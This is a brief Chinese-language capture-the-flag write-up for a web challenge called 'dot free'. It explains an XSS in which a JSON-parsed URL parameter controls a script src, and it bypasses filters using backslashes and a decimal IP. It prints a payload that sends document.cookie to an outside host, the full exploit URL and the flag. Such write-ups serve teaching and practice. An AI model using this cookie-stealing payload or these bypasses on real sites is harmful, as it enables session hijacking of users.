 # dot free

這題一打開

可以看到一堆奇怪的js code

稍微分析一下，他會去抓參數來當成JSON parse

然後其中有段code去抓`data.iframe.value`，只要通過其規定的諸多限制，就會append一個script

(p.s.可以發現它typeof的括號寫錯惹)

而script的src是我們可控的，但不能有`//`和`.`等內容

這邊可以把`//`改成用`\\\\`一樣會work

再把domain name，改成用10進位形式就能繞過`.`的限制

a:

`document.location='http://kaibro.tw/?xss='+document.cookie;`

payload:

`http://13.57.104.34/?{ "iframe":{"value":"http:\\\\921608994/a"}}`

接著只要把這個payload送過去後端

他就會把cookie(flag)噴回來惹

flag:

`rwctf{L00kI5TheFlo9}`
